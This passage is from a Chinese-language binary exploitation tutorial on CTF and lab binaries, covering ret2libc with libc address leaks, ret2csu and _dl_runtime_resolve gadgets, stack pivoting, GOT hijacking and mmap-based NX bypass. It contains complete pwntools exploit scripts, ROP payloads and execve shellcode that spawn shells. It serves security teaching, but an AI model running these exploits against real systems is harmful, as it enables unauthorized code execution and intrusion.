 b7705000-b7707000 r--p 001a4000 08:01 525196 /lib/i386-linux-gnu/libc-2.15.so
 b7707000-b7708000 rw-p 001a6000 08:01 525196 /lib/i386-linux-gnu/libc-2.15.so
```

地址随机化解决办法是先泄漏出libc.so某些函数在内存中的地址，再利用泄漏出的函数地址根据偏移量计算出system()函数和/bin/sh字符串在内存中的地址，然后再执行ret2libc的shellcode。**虽然libc，stack，heap的地址都是随机的，但程序镜像本身在内存中的地址并不是随机的，所以只要把返回值设置到程序本身就可执行我们期望的指令了**。


首先我们利用objdump来查看可以利用的plt函数和函数对应的got表：

```
 $ objdump -d -j .plt level2

 Disassembly of section .plt:

 08048310 <read@plt>:
  8048310: ff 25 00 a0 04 08 jmp *0x804a000
  8048316: 68 00 00 00 00 push $0x0
  804831b: e9 e0 ff ff ff jmp 8048300 <_init+0x30>

 08048320 <__gmon_start__@plt>:
  8048320: ff 25 04 a0 04 08 jmp *0x804a004
  8048326: 68 08 00 00 00 push $0x8
  804832b: e9 d0 ff ff ff jmp 8048300 <_init+0x30>

 08048330 <__libc_start_main@plt>:
  8048330: ff 25 08 a0 04 08 jmp *0x804a008
  8048336: 68 10 00 00 00 push $0x10
  804833b: e9 c0 ff ff ff jmp 8048300 <_init+0x30>

 08048340 <write@plt>:
  8048340: ff 25 0c a0 04 08 jmp *0x804a00c
  8048346: 68 18 00 00 00 push $0x18
  804834b: e9 b0 ff ff ff jmp 8048300 <_init+0x30>

 $ objdump -R level2
 //got表
 DYNAMIC RELOCATION RECORDS
 OFFSET TYPE VALUE 
 08049ff0 R_386_GLOB_DAT __gmon_start__
 0804a000 R_386_JUMP_SLOT read
 0804a004 R_386_JUMP_SLOT __gmon_start__
 0804a008 R_386_JUMP_SLOT __libc_start_main
 0804a00c R_386_JUMP_SLOT write
```

除了程序本身的实现的函数之外，我们还可以使用read@plt()和write@plt()函数。但因为程序本身并没有调用system()函数，所以我们并不能直接调用system()来获取shell。但其实有write@plt()函数就够了，因为我们可以通过write@plt()函数把write()函数在内存中的地址也就是write.got给打印出来。既然write()函数实现是在libc.so当中，那我们调用的write@plt()函数为什么也能实现write()功能呢? 这是因为linux采用了延时绑定技术，当我们调用write@plt()的时候，系统会将真正的write()函数地址link到got表的write.got中，然后write@plt()会根据write.got 跳转到真正的write()函数上去。（细节可参考《程序员的自我修养 - 链接、装载与库》这本书）

因为system()函数和write()在libc.so中的offset(相对地址)是不变的，所以如果我们得到了write()的地址并且拥有目标服务器上的libc.so就可以计算出system()在内存中的地址了。然后我们再将pc指针return回vulnerable_function()函数，就可以进行ret2libc溢出攻击，并且这一次我们知道了system()在内存中的地址，就可以调用system()函数来获取我们的shell了。


使用ldd命令可以查看目标程序调用的so库。随后我们把libc.so拷贝到当前目录，因为我们的exp需要这个so文件来计算相对地址：

```
 $ ldd level2
     linux-gate.so.1 => (0xb7781000)
     libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75c4000)
     /lib/ld-linux.so.2 (0xb7782000)
 $ cp /lib/i386-linux-gnu/libc.so.6 libc.so
```

**Exploit**

```
#!/usr/bin/env python
 from pwn import *

 libc = ELF('libc.so')
 elf = ELF('level2')

 #p = process('./level2')
 p = remote('127.0.0.1', 10003)

 plt_write = elf.symbols['write']
 print 'plt_write= ' + hex(plt_write)
 got_write = elf.got['write']
 print 'got_write= ' + hex(got_write)
 vulfun_addr = 0x08048404
 print 'vulfun= ' + hex(vulfun_addr)

 payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(got_write) + p32(4)

 print "\n###sending payload1 ...###"
 p.send(payload1)

 print "\n###receving write() addr...###"
 write_addr = u32(p.recv(4))
 print 'write_addr=' + hex(write_addr)

 print "\n###calculating system() addr and \"/bin/sh\" addr...###"
 system_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])
 print 'system_addr= ' + hex(system_addr)
 binsh_addr = write_addr - (libc.symbols['write'] - next(libc.search('/bin/sh')))
 print 'binsh_addr= ' + hex(binsh_addr)

 payload2 = 'a'*140 + p32(system_addr) + p32(vulfun_addr) + p32(binsh_addr)

 print "\n###sending payload2 ...###"
 p.send(payload2)

 p.interactive()
```


#### ret2csu x64通用gadget查找

x64架构下的ROP

- arm64（64位)cdecl调用约定

  - 使用寄存器rdi, rsi, rdx, rcx, r8, r9来传递前6个参数
  - 第七个及以上的参数通过栈来传递

- 参数在寄存器中，必须用gadget来设置参数

  - pop rdi; ret

  - pop rsi; pop r15; ret;

  - 用gadget设置rdx和rcx寄存器就比较困难一点，没有例如pop ret这种特别直接的gadget
    1). 案例：ropemporium write4
    http://ropemporium.com/binary/write4.zip

    - 构造info leak代码段(如write、puts、printf等)
    - 计算lib_base
    - 构造第二次栈溢出，完成getshell操作
      2). x64下通用Gadget: __libc_csu_init
    - 几乎所有的x64 ELF在__libc_csu_init函数中存在上面两个Gadget，第二个Gadget可以设置r13,r14,r15,再通过第一个Gadget将这三个值分别送入rdx,rsi,edi中，正好涵盖了x64 cdecl调用约定下的前三个参数。

    中间有几处关键的地方
    1>. 设置rbx为0(一般情况)
    2>. 设置rbp为1
    案例：https://ropemporium.com/binary/ret2csu.zip
    http://paste.ubuntu.com/p/BPZyHJ555f/


程序在编译过程中会加入一些通用函数用来进行初始化操作（比如加载libc.so的初始化函数），虽然很多程序的源码不同，但初始化的过程是相同的，针对这些初始化函数，我们可以提取一些通用的gadgets加以使用，从而达到我们想要的效果。

目标程序level5.c：

```
 #undef _FORTIFY_SOURCE
 #include <stdio.h>
 #include <stdlib.h>
 #include <unistd.h>

 void vulnerable_function() {
  char buf[128];
  read(STDIN_FILENO, buf, 512);
 }

 int main(int argc, char** argv) {
  write(STDOUT_FILENO, "Hello, World\n", 13);
  vulnerable_function();
 }
```


程序仅仅只有一个栈溢出，也没有任何的辅助函数，所以要先泄露内存信息，找到system()的值，然后再传递“/bin/sh”到.bss段, 最后调用system(“/bin/sh”)。因为原程序使用了write()和read()函数，我们可以通过write()去输出write.got的地址，从而计算出libc.so在内存中的地址。但问题在于write()的参数应该如何传递，因为x64下前6个参数不是保存在栈中，而是通过寄存器传值。我们使用ROPgadget并没有找到类似于pop rdi, ret,pop rsi, ret这样的gadgets。其实在x64下有一些万能的gadgets可以利用。比如说我们用objdump -d ./level5观察一下__libc_csu_init()这个函数。一般来说，只要程序调用了libc.so，程序都会有这个函数用来对libc进行初始化操作。

```
00000000004005a0 <__libc_csu_init>:
4005a0: 48 89 6c 24 d8 mov %rbp,-0x28(%rsp)
4005a5: 4c 89 64 24 e0 mov %r12,-0x20(%rsp)
4005aa: 48 8d 2d 73 08 20 00 lea 0x200873(%rip),%rbp # 600e24 <__init_array_end>
4005b1: 4c 8d 25 6c 08 20 00 lea 0x20086c(%rip),%r12 # 600e24 <__init_array_end>
4005b8: 4c 89 6c 24 e8 mov %r13,-0x18(%rsp)
4005bd: 4c 89 74 24 f0 mov %r14,-0x10(%rsp)
4005c2: 4c 89 7c 24 f8 mov %r15,-0x8(%rsp)
4005c7: 48 89 5c 24 d0 mov %rbx,-0x30(%rsp)
4005cc: 48 83 ec 38 sub $0x38,%rsp
4005d0: 4c 29 e5 sub %r12,%rbp
4005d3: 41 89 fd mov %edi,%r13d
4005d6: 49 89 f6 mov %rsi,%r14
4005d9: 48 c1 fd 03 sar $0x3,%rbp
4005dd: 49 89 d7 mov %rdx,%r15
4005e0: e8 1b fe ff ff callq 400400 <_init>
4005e5: 48 85 ed test %rbp,%rbp
4005e8: 74 1c je 400606 <__libc_csu_init+0x66>
4005ea: 31 db xor %ebx,%ebx
4005ec: 0f 1f 40 00 nopl 0x0(%rax)
4005f0: 4c 89 fa mov %r15,%rdx
4005f3: 4c 89 f6 mov %r14,%rsi
4005f6: 44 89 ef mov %r13d,%edi
4005f9: 41 ff 14 dc callq *(%r12,%rbx,8)
4005fd: 48 83 c3 01 add $0x1,%rbx
400601: 48 39 eb cmp %rbp,%rbx
400604: 75 ea jne 4005f0 <__libc_csu_init+0x50>
400606: 48 8b 5c 24 08 mov 0x8(%rsp),%rbx
40060b: 48 8b 6c 24 10 mov 0x10(%rsp),%rbp
400610: 4c 8b 64 24 18 mov 0x18(%rsp),%r12
400615: 4c 8b 6c 24 20 mov 0x20(%rsp),%r13
40061a: 4c 8b 74 24 28 mov 0x28(%rsp),%r14
40061f: 4c 8b 7c 24 30 mov 0x30(%rsp),%r15
400624: 48 83 c4 38 add $0x38,%rsp
400628: c3 retq   
```

我们可以看到利用0x400606处的代码我们可以控制rbx,rbp,r12,r13,r14和r15的值，随后利用0x4005f0处的代码我们将r15的值赋值给rdx, r14的值赋值给rsi,r13的值赋值给edi，随后就会调用
`call qword ptr [r12+rbx*8]`。这时候我们只要再将rbx的值赋值为0，再通过精心构造栈上的数据，我们就可以控制pc去调用我们想要调用的函数了（比如说write函数）。执行完`call qword ptr [r12+rbx*8]`之后，程序会对rbx+=1，然后对比rbp和rbx的值，如果相等就会继续向下执行并ret到我们想要继续执行的地址。所以为了让rbp和rbx的值相等，我们可以将rbp的值设置为1，因为之前已经将rbx的值设置为0了。接下来按照这个思路来构造ROP链。

我们先构造payload1，利用write()输出write在内存中的地址。注意我们的gadget是`call qword ptr [r12+rbx*8]`，所以我们应该使用write.got的地址而不是write.plt的地址。并且为了返回到原程序中，重复利用buffer overflow的漏洞，我们需要继续覆盖栈上的数据，直到把返回值覆盖成目标函数的main函数为止。

```
 #rdi= edi = r13, rsi = r14, rdx = r15 
 #write(rdi=1, rsi=write.got, rdx=4)
 payload1 = "\x00"*136
 payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
 payload1 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
 payload1 += "\x00"*56
 payload1 += p64(main)
```

当我们exp在收到write()在内存中的地址后，就可以计算出system()在内存中的地址了。接着我们构造payload2，利用read()将system()的地址以及“/bin/sh”读入到.bss段内存中。

```
 #rdi= edi = r13, rsi = r14, rdx = r15 
 #read(rdi=0, rsi=bss_addr, rdx=16)
 payload2 = "\x00"*136
 payload2 += p64(0x400606) + p64(0) + p64(0) + p64(1) + p64(got_read) + p64(0) + p64(bss_addr) + p64(16) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
 payload2 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
 payload2 += "\x00"*56
 payload2 += p64(main)
```

最后我们构造payload3,调用system()函数执行“/bin/sh”。注意，system()的地址保存在了.bss段首地址上，“/bin/sh”的地址保存在了.bss段首地址+8字节上。

```
 #rdi= edi = r13, rsi = r14, rdx = r15 
 #system(rdi = bss_addr+8 = "/bin/sh")
 payload3 = "\x00"*136
 payload3 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(bss_addr) + p64(bss_addr+8) + p64(0) + p64(0) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
 payload3 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
 payload3 += "\x00"*56
 payload3 += p64(main)
```

最终exp如下：

```
#!/usr/bin/env python
 from pwn import *

 elf = ELF('level5')
 libc = ELF('libc.so.6')

 p = process('./level5')
 #p = remote('127.0.0.1',10001)

 got_write = elf.got['write']
 print "got_write: " + hex(got_write)
 got_read = elf.got['read']
 print "got_read: " + hex(got_read)

 main = 0x400564

 off_system_addr = libc.symbols['write'] - libc.symbols['system']
 print "off_system_addr: " + hex(off_system_addr)

 #rdi= edi = r13, rsi = r14, rdx = r15 
 #write(rdi=1, rsi=write.got, rdx=4)
 payload1 = "\x00"*136
 payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
 payload1 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
 payload1 += "\x00"*56
 payload1 += p64(main)

 p.recvuntil("Hello, World\n")

 print "\n#############sending payload1#############\n"
 p.send(payload1)
 sleep(1)

 write_addr = u64(p.recv(8))
 print "write_addr: " + hex(write_addr)

 system_addr = write_addr - off_system_addr
 print "system_addr: " + hex(system_addr)

 bss_addr=0x601028

 p.recvuntil("Hello, World\n")

 #rdi= edi = r13, rsi = r14, rdx = r15 
 #read(rdi=0, rsi=bss_addr, rdx=16)
 payload2 = "\x00"*136
 payload2 += p64(0x400606) + p64(0) + p64(0) + p64(1) + p64(got_read) + p64(0) + p64(bss_addr) + p64(16) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
 payload2 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
 payload2 += "\x00"*56
 payload2 += p64(main)

 print "\n#############sending payload2#############\n"
 p.send(payload2)
 sleep(1)

 p.send(p64(system_addr))
 p.send("/bin/sh\0")
 sleep(1)

 p.recvuntil("Hello, World\n")

 #rdi= edi = r13, rsi = r14, rdx = r15 
 #system(rdi = bss_addr+8 = "/bin/sh")
 payload3 = "\x00"*136
 payload3 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(bss_addr) + p64(bss_addr+8) + p64(0) + p64(0) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
 payload3 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
 payload3 += "\x00"*56
 payload3 += p64(main)

 print "\n#############sending payload3#############\n"

 sleep(1)
 p.send(payload3)

 p.interactive()
```

上面讲到了__libc_csu_init()的一条万能gadgets，其实不光__libc_csu_init()里的代码可以利用，默认gcc还会有如下自动编译进去的函数可以用来查找gadgets。

```
 _init
 _start
 call_gmon_start
 deregister_tm_clones
 register_tm_clones
 __do_global_dtors_aux
 frame_dummy
 __libc_csu_init
 __libc_csu_fini
 _fini
```

除此之外在程序执行的过程中，CPU只会关注于PC指针的地址，并不会关注是否执行了编程者想要达到的效果。因此，通过控制PC跳转到某些经过稍微偏移过的地址会得到意想不到的效果。

比如说说我们反编译一下__libc_csu_init()这个函数的尾部：

```
 gdb-peda$ disas __libc_csu_init
 Dump of assembler code for function __libc_csu_init:
 ……
    0x0000000000400606 <+102>: movrbx,QWORD PTR [rsp+0x8]
    0x000000000040060b <+107>: movrbp,QWORD PTR [rsp+0x10]
    0x0000000000400610 <+112>: mov r12,QWORD PTR [rsp+0x18]
    0x0000000000400615 <+117>: mov r13,QWORD PTR [rsp+0x20]
    0x000000000040061a <+122>: mov r14,QWORD PTR [rsp+0x28]
    0x000000000040061f <+127>: mov r15,QWORD PTR [rsp+0x30]
    0x0000000000400624 <+132>: add rsp,0x38
    0x0000000000400628 <+136>: ret  
```

可以发现我们可以通过rsp控制r12-r15的值，但我们知道x64下常用的参数寄存器是rdi和rsi，控制r12-r15并没有什么太大的用处。不要慌，虽然原程序本身用是为了控制r14和r15寄存器的值。如下面的反编译所示：

```
 gdb-peda$ x/5i 0x000000000040061a
    0x40061a <__libc_csu_init+122>: mov r14,QWORD PTR [rsp+0x28]
    0x40061f <__libc_csu_init+127>: mov r15,QWORD PTR [rsp+0x30]
    0x400624 <__libc_csu_init+132>: add rsp,0x38
    0x400628 <__libc_csu_init+136>: ret  
```

但是我们如果简单的对pc做个位移再反编译，我们就会发现esi和edi的值可以被我们控制了！如下面的反编译所示:

```
 gdb-peda$ x/5i 0x000000000040061b
    0x40061b <__libc_csu_init+123>: movesi,DWORD PTR [rsp+0x28]
    0x40061f <__libc_csu_init+127>: mov r15,QWORD PTR [rsp+0x30]
    0x400624 <__libc_csu_init+132>: add rsp,0x38
    0x400628 <__libc_csu_init+136>: ret    
    0x400629: nop DWORD PTR [rax+0x0]
 gdb-peda$ x/5i 0x0000000000400620
    0x400620 <__libc_csu_init+128>: movedi,DWORD PTR [rsp+0x30]
    0x400624 <__libc_csu_init+132>: add rsp,0x38
    0x400628 <__libc_csu_init+136>: ret    
    0x400629: nop DWORD PTR [rax+0x0]
    0x400630 <__libc_csu_fini>: repz ret 
```


虽然edi和esi只能控制低32位的数值，但已经可以满足我们的很多的rop需求了。

除了程序默认编译进去的函数，如果我们能得到libc.so或者其他库在内存中的地址，就可以获得到大量的可用的gadgets。比如上一篇文章中提到的通用gadget只能控制三个参数寄存器的值并且某些值只能控制32位，如果我们想要控制多个参数寄存器的值的话只能去寻找其他的gadgets了。这里就介绍一个_dl_runtime_resolve()中的gadget，通过这个gadget可以控制六个64位参数寄存器的值，当我们使用参数比较多的函数的时候（比如mmap和mprotect）就可以派上用场了。

我们把_dl_runtime_resolve反编译可以得到：

```
 0x7ffff7def200 <_dl_runtime_resolve>: sub rsp,0x38
 0x7ffff7def204 <_dl_runtime_resolve+4>: mov QWORD PTR [rsp],rax
 0x7ffff7def208 <_dl_runtime_resolve+8>: mov QWORD PTR [rsp+0x8],rcx
 0x7ffff7def20d <_dl_runtime_resolve+13>: mov QWORD PTR [rsp+0x10],rdx
 0x7ffff7def212 <_dl_runtime_resolve+18>: mov QWORD PTR [rsp+0x18],rsi
 0x7ffff7def217 <_dl_runtime_resolve+23>: mov QWORD PTR [rsp+0x20],rdi
 0x7ffff7def21c <_dl_runtime_resolve+28>: mov QWORD PTR [rsp+0x28],r8
 0x7ffff7def221 <_dl_runtime_resolve+33>: mov QWORD PTR [rsp+0x30],r9
 0x7ffff7def226 <_dl_runtime_resolve+38>: movrsi,QWORD PTR [rsp+0x40]
 0x7ffff7def22b <_dl_runtime_resolve+43>: movrdi,QWORD PTR [rsp+0x38]
 0x7ffff7def230 <_dl_runtime_resolve+48>: call 0x7ffff7de8680 <_dl_fixup>
 0x7ffff7def235 <_dl_runtime_resolve+53>: mov r11,rax
 0x7ffff7def238 <_dl_runtime_resolve+56>: mov r9,QWORD PTR [rsp+0x30]
 0x7ffff7def23d <_dl_runtime_resolve+61>: mov r8,QWORD PTR [rsp+0x28]
 0x7ffff7def242 <_dl_runtime_resolve+66>: movrdi,QWORD PTR [rsp+0x20]
 0x7ffff7def247 <_dl_runtime_resolve+71>: movrsi,QWORD PTR [rsp+0x18]
 0x7ffff7def24c <_dl_runtime_resolve+76>: movrdx,QWORD PTR [rsp+0x10]
 0x7ffff7def251 <_dl_runtime_resolve+81>: movrcx,QWORD PTR [rsp+0x8]
 0x7ffff7def256 <_dl_runtime_resolve+86>: movrax,QWORD PTR [rsp]
 0x7ffff7def25a <_dl_runtime_resolve+90>: add rsp,0x48
 0x7ffff7def25e <_dl_runtime_resolve+94>: jmp r11
```

从0x7ffff7def235开始，就是这个通用gadget的地址了。通过这个gadget我们可以控制rdi，rsi，rdx，rcx， r8，r9的值。但要注意的是`_dl_runtime_resolve()`在内存中的地址是随机的。所以我们需要先用information leak得到_dl_runtime_resolve()在内存中的地址。那么`_dl_runtime_resolve()`的地址被保存在了哪个固定的地址呢？

通过反编译level5程序我们可以看到write@plt()这个函数使用PLT [0] 去查找write函数在内存中的地址，函数jump过去的地址*0x600ff8其实就是`_dl_runtime_resolve()`在内存中的地址了。所以只要获取到0x600ff8这个地址保存的数据，就能够找到`_dl_runtime_resolve()`在内存中的地址：

```
 0000000000400420 <write@plt-0x10>:
   400420: ff 35 ca 0b 20 00 pushq 0x200bca(%rip) # 600ff0 <_GLOBAL_OFFSET_TABLE_+0x8>
   400426: ff 25 cc 0b 20 00 jmpq *0x200bcc(%rip) # 600ff8 <_GLOBAL_OFFSET_TABLE_+0x10>
   40042c: 0f 1f 40 00 nopl 0x0(%rax)

 gdb-peda$ x/x 0x600ff8
 0x600ff8 <_GLOBAL_OFFSET_TABLE_+16>: 0x00007ffff7def200

 gdb-peda$ x/21i 0x00007ffff7def200
    0x7ffff7def200 <_dl_runtime_resolve>: sub rsp,0x38
    0x7ffff7def204 <_dl_runtime_resolve+4>: mov QWORD PTR [rsp],rax
    0x7ffff7def208 <_dl_runtime_resolve+8>: mov QWORD PTR [rsp+0x8],rcx
    0x7ffff7def20d <_dl_runtime_resolve+13>: mov QWORD PTR 
 [rsp+0x10],rdx
 ….
```

另一个要注意的是，想要利用这个gadget，我们还需要控制rax的值，因为gadget是通过rax跳转的：

```
 0x7ffff7def235 <_dl_runtime_resolve+53>: mov r11,rax
 ……
 0x7ffff7def25e <_dl_runtime_resolve+94>: jmp r11

所以我们接下来用ROPgadget查找一下libc.so中控制rax的gadget：

 ROPgadget --binary libc.so.6 --only "pop|ret" | grep "rax"
 0x000000000001f076 : pop rax ; pop rbx ; pop rbp ; ret
 0x0000000000023950 : pop rax ; ret
 0x000000000019176e : pop rax ; ret 0xffed
 0x0000000000123504 : pop rax ; ret 0xfff0
```

0x0000000000023950刚好符合我们的要求。有了`pop rax`和`_dl_runtime_resolve`这两个gadgets，我们就可以很轻松的调用想要的调用的函数了。


#### ROP构造多次溢出

案例: ropasaurusrex (PlaidCTF 2013)

https://github.com/PHX2600/plaidctf-2013/tree/master/ropasaurusrex

buf长度为0x88，而read函数读入长度为0x100，存在栈溢出。
根据IDA Pro标记的buf位置，或调试可以得到，要覆盖到返回地址，填充的长度是(0x88 + 4)



**缓解机制**

```
 $ checksec
 STACK CANARY : No canary found
 NX : NX enabled
 PIE : No PIE
 RELRO : No RELRO
 RPATH : No RPATH
 RUNPATH : No RUNPATH
```

**控制EIP**

使用python库pwntools与程序交互，pwntools同时支持标准输入输出方式的交互和远程TCP连接的方式的交互。

输入(0x88+4)个A，再加上"BBBB"，可以正好让"BBBB"覆盖返回地址，从而劫持eip

```
from pwn import *
context(arch='i386', os='linux', endian='little', log_level='debug')
elf = ELF('./ropasaurusrex')

# 这里采用标准输入输出交互的方式

p = process(elf.path)

# p = remote('127.0.0.1', 1337)

print '[+] PID: %s' % proc.pidof(p)
payload = 'A'*(0x88 + 4) + 'BBBB'
p.send(payload)

p.interactive()
```


**溢出两次**

- 第一次ROP，泄露libc地址，可泄露got表中write函数的地址

     * 调用write(1, write_got, 4), write函数可以通过plt调用
     * 到main()函数并再次触发溢出

- 读取泄露的write函数地址，计算system()和字符串'/bin/sh'的地址

- 第二次ROP，调用system('/bin/sh')




#### 栈迁移(Stack Pivot)

##### 案例1: ropasaurusrex (PlaidCTF 2013)

https://github.com/PHX2600/plaidctf-2013/tree/master/ropasaurusrex

案例同上，前面经过两次溢出完成利用，这里通过栈迁移方式一样可以完成利用。

**栈迁移(Stack Pivot)**



**定义**

+ 通过一个修改esp寄存器的gadget来改变栈的位置

**应用场景**

+ 溢出长度较短，不够做ROP(左上案例)
+ 溢出载荷以0结尾，而gadget地址为0开头(右上案例)
+ 在泄露地址后，我们需要执行一个新的ROP链

**栈迁移："add esp"**
将esp加上一个固定值的gadget我们称为"add esp"，例如: add esp, 0x6C; ret;
下图将演示栈迁移的过程，从栈溢出函数返回开始。





**栈迁移："pop ebp ret" + "leave ret"**
    "pop ebp; ret;" + "leave; ret;"两个gadget组合可以将esp改成任意值。
    "pop ebp; ret;"可以将ebp改成任意值
    leave = mov esp, ebp; pop ebp;因此ebp会存入esp，esp可任意控制。









**利用：栈迁移**

- 第一次ROP，泄露libc地址
   + 调用write(1, write_got, 4),泄露write函数地址，同方法1
   + 调用read(0, new_stack, ROP_len), 读取第二次ROP Payload到bss段(新的栈)
   + 利用栈迁移"pop ebp ret" + "leave ret"，连接执行第二次ROP
- 读取泄露的write函数地址，计算system()和字符串'/bin/sh'的地址
- 根据计算出的system和binsh地址，输入第二次的ROP
- 等待栈迁移触发第二次ROP执行，启动shell




##### 案例2：ropemporium pivot

  http://ropemporium.com/binary/pivot32.zip



在该案例中，栈上可用的空间很小，因此必须找到一个方法来到更多的空间，这时候可以利用栈迁移的方法

```
# http://paste.ubuntu.com/prykV4KDzKS/
from pwn import *

context.log_level = 'debug'
elf = ELF("pivot32")
libc = elf.libc
leave_ret = 0x804889e

io = process("./pivot32")

io.recvuntil("The Old Gods kindly bestow upon you a place to pivot:")
leakaddr = int(io.recvline().strip(),16)
log.info("leakaddr: 0x%x" % leakaddr)

pay1  = ""
pay1 += p32(elf.plt['puts'])
pay1 += p32(0x804873B)  # pwnme() function
pay1 += p32(elf.got['puts'])
io.recvuntil(">")
io.sendline(pay1)

pause()

pay2 = "A"*0x28
pay2 += p32(leakaddr-4) # sae ebp 
pay2 += p32(leave_ret)  # 

io.recvuntil(">")
io.sendline(pay2)
# leak
puts_addr = u32(io.recvn(5)[1:])
libc_base = puts_addr - libc.sym['puts']
system_addr = libc_base + libc.sym['system']
binsh_addr = libc_base + libc.search("/bin/sh\x00").next()
log.info("puts_addr: 0x%x" % puts_addr)
log.info("system_addr: 0x%x" % system_addr)

io.recvuntil("The Old Gods kindly bestow upon you a place to pivot:")
leakaddr = int(io.recvline().strip(),16)
log.info("leakaddr: 0x%x" % leakaddr)
pay3 = p32(system_addr)
pay3 += "AAAA"
pay3 += p32(binsh_addr)

io.recvuntil(">")
io.sendline(pay3)

pay2 = "A"*0x28
pay2 += p32(leakaddr-4)
pay2 += p32(leave_ret)

io.recvuntil(">")
io.sendline(pay2)

io.interactive()
```


#### GOT表劫持

**思路**

  + 上述方法中，我们需要执行两次ROP，第二次ROP Payload依赖第一次ROP泄露的地址，能否只用一次ROP就完成利用？

  + 在ROP中通过return to PLT调用read和write，实际上可以实现内存任意读写

  + 因此，为了最终执行system()我们可以不使用ROP，而是使用GOT表劫持的方法：先通过ROP调用read，来修改write函数的GOT表项，然后再次write，实际上此时调用的则是GOT表项被劫持后的值，例如system()

    

**详细步骤**

  - 使用一次ROP，完成libc地址泄露、GOT表劫持、命令字符串写入
    + 调用write(1, write_got, 4)，泄露write函数地址，同方法1
    + 调用read(0, write_got, 4)，修改write()函数的GOT表项为system地址
    + 调用read(0, bss, len(cmd))，将命令字符串("/bin/sh")写入.bss section
    + 调用write(cmd)，实际上调用的system(cmd)
  - 读取泄露的write函数地址，计算system()地址
  - 读取system()地址，修改write()函数的GOT表项
  - 输入命令字符串"/bin/sh"，写入.bss section
  - 调用write(cmd)来运行system(cmd)




#### rop执行mmap/mprotect绕过NX执行任意shellcode

看了这么多rop后是不是感觉我们利用rop只是用来执行system有点太不过瘾了？另外网上和msf里有那么多的shellcode难道在默认开启DEP的今天已经没有用处了吗？并不是的，我们可以通过mmap或者mprotect将某块内存改成RWX(可读可写可执行)，然后将shellcode保存到这块内存，然后控制pc跳转过去就可以执行任意的shellcode了，比如说建立一个socket连接等。下面我们就结合上一节中提到的通用gadgets来让程序执行一段shellcode。

我们测试的目标程序还是level5。在exp中，我们首先用上一篇中提到的_`_libc_csu_init`中的通用gadgets泄露出got_write和_`dl_runtime_resolve`的地址。

```
 #rdi= edi = r13, rsi = r14, rdx = r15 
 #write(rdi=1, rsi=write.got, rdx=4)
 payload1 = "\x00"*136
 payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
 payload1 += p64(0x4005F0) # movrdx, r15; movrsi, r14; movedi, r13d; call qword ptr [r12+rbx*8]
 payload1 += "\x00"*56
 payload1 += p64(main)

 #rdi= edi = r13, rsi = r14, rdx = r15 
 #write(rdi=1, rsi=linker_point, rdx=4)
 payload2 = "\x00"*136
 payload2 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(linker_point) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
 payload2 += p64(0x4005F0) # movrdx, r15; movrsi, r14; movedi, r13d; call qword ptr [r12+rbx*8]
 payload2 += "\x00"*56
 payload2 += p64(main)`
```

随后就可以根据偏移量和泄露的地址计算出其他gadgets的地址。

```
shellcode = ( "\x48\x31\xc0\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e" +
               "\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89" +
               "\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" )

 shellcode_addr = 0xbeef0000

 #mmap(rdi=shellcode_addr, rsi=1024, rdx=7, rcx=34, r8=0, r9=0)
 payload3 = "\x00"*136
 payload3 += p64(pop_rax_ret) + p64(mmap_addr)
 payload3 += p64(linker_addr+0x35) + p64(0) + p64(34) + p64(7) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0)

 #read(rdi=0, rsi=shellcode_addr, rdx=1024)
 payload3 += p64(pop_rax_ret) + p64(plt_read)
 payload3 += p64(linker_addr+0x35) + p64(0) + p64(0) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0) + p64(0)

 payload3 += p64(shellcode_addr)
```

然后我们利用_dl_runtime_resolve里的通用gadgets调用mmap(rdi=shellcode_addr, rsi=1024, rdx=7, rcx=34, r8=0, r9=0),开辟一段RWX的内存在0xbeef0000处。随后我们使用read(rdi=0, rsi=shellcode_addr, rdx=1024),把我们想要执行的shellcode读入到0xbeef0000这段内存中。最后再将指针跳转到shellcode处就可执行我们想要执行的任意代码了。

**Exploit**

```
 #!/usr/bin/env python
 from pwn import *

 elf = ELF('level5')
 libc = ELF('libc.so.6')

 p = process('./level5')
 #p = remote('127.0.0.1',10001)

 got_write = elf.got['write']
 print "got_write: " + hex(got_write)
 got_read = elf.got['read']
 print "got_read: " + hex(got_read)
 plt_read = elf.symbols['read']
 print "plt_read: " + hex(plt_read)
 linker_point = 0x600ff8
 print "linker_point: " + hex(linker_point)
 got_pop_rax_ret = 0x0000000000023950
 print "got_pop_rax_ret: " + hex(got_pop_rax_ret)

 main = 0x400564

 off_mmap_addr = libc.symbols['write'] - libc.symbols['mmap']
 print "off_mmap_addr: " + hex(off_mmap_addr)
